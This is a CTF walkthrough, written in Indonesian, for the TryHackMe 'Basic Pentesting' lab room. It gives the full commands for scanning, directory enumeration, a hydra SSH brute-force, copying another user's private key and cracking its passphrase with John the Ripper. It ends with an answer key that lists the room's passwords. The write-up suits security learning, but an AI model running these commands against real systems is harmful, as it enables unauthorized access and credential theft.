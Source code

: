 # CTF Basic Pentesting
- TryHackMe Room: https://tryhackme.com/room/basicpentestingjt
- IP Machine: 10.10.71.212

## Nmap Report
- Baris perintah: `nmap -sV -A <IP Machine>`

```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -A 10.10.71.212             
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-28 19:52 EDT
Nmap scan report for 10.10.71.212
Host is up (0.20s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/28%OT=22%CT=1%CU=42337%PV=Y%DS=2%DC=T%G=Y%TM=64C454E
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=105%GCD=1%ISR=10C%TI=Z%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O
OS:3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-07-28T19:53:01-04:00
| smb2-time: 
|   date: 2023-07-28T23:53:01
|_  start_date: N/A
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   207.38 ms 10.8.0.1
2   207.68 ms 10.10.71.212

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.86 seconds
```

## Gobuster Report
- Baris perintah: `gobuster dir -u http://<IP Machine> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%201.JPG)

- Ditemukan halaman /development dari gobuster. Buka halaman `http://<IP_Machine>/development` di browser, disana ditemukan file **dev.txt** dan **j.txt**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%202.JPG)

- Isi file dev.txt

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%203.JPG)

- Isi file j.txt

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%204.JPG)

- Dari informasi diatas diketahui bahwa:
	* Ada 2 user dengan inisial J dan K
	* User dengan inisial J memiliki password yang lemah
	* Mesin menggunakan service SMB (Samba)
	* Mesin menggunakan web server Apache versi 2.5.12

## Enum4linux
- Baris perintah: `enum4linux -a <IP Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%205.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%206.JPG)

- Dari hasil enumerasi diketahui bahwa, 2 user yang dimaksud adalah **jan** dan **kay**

## Brute force
- Dikarenakan jan memiliki password yang lemah dan machine memiliki service SSH maka kita memutuskan untuk melakukan brute force dengan hydra
- Brute force akun SSH jay dengan hydra. Baris perintah:  `hydra -l jan -P /usr/share/wordlists/rockyou.txt <IP Machine> ssh`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%207.JPG)

- Password SSH jan adalah **armando**

## Gaining Access
- Akses SSH dengan user jan. Baris perintah: `ssh jan@<IP Machine>` lalu masukkan password yang sudah ditemukan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%208.JPG)

- Setelah berhasil masuk kita berada di directory **/home/jan**. Navigasi ke directory **/home** dan disana ditemukan home directory **kay**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%209.JPG)

- Navigasi ke directory **/home/kay** dan disana ditemukan file **pass.bak** dan directory **.ssh**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2010.JPG)

- Kita tidak bisa membaca isi file **pass.bak** dengan user jan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2011.JPG)

- Navigasi ke directory **.ssh** dan disana ditemukan kunci public (**id_rsa.pub**) dan kunci privat (**id_rsa**) dari akun SSH kay

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2012.JPG)

- Kita bisa masuk ke akun kay kalau kita bisa menemukan passphrase dari kunci privat kay
- Buka file id_rsa dengan baris perintah: `cat id_rsa`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2013.JPG)

- Buat sebuah file di local dan copy semua isi file **id_rsa**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2014.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2015.JPG)

- Ekstrak hash id_rsa dengan tool ssh2john: `ssh2john file_id_rsa > nama_file`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2016.JPG)

- Lakukan cracking hash dengan tool john the ripper:  `john --wordlist=/usr/share/wordlists/rockyou.txt file_hash`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2017.JPG)

- Passphrase berhasil ditemukan, gunakan passphrase tersebut untuk login ke SSH kay dengan perintah: `ssh -i id_rsa kay@IP_Machine` lalu masukkan passphrase yang sudah ditemukan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2018.JPG)

- Setelah berhasil masuk sebagai kay kita bisa membaca isi file **pass.bak**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2019.JPG)

## Pertanyaan dan Jawaban

- **Pertanyaan:** What is the name of the hidden directory on the web server(enter name without /)?
- **Petunjuk:** Jawaban bisa dilihat di Gobuster Report
```sh
development
```

- **Pertanyaan:** What is the username?
- **Petunjuk:** Nama user yang di brute force
```sh
jan
```

- **Pertanyaan:** What is the password?
- **Petunjuk:** Passwordnya user jan
```sh
armando
```

- **Pertanyaan:** What service do you use to access the server(answer in abbreviation in all caps)?
- **Petunjuk:** Service yang bisa digunakan untuk mengakses server
```sh
SSH
```

- **Pertanyaan:** What is the name of the other user you found(all lower case)?
- **Petunjuk:** Nama user selain jan
```sh
kay
```

- **Pertanyaan:** What is the final password you obtain?
- **Petunjuk:** Isi dari file pass.bak
```sh
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
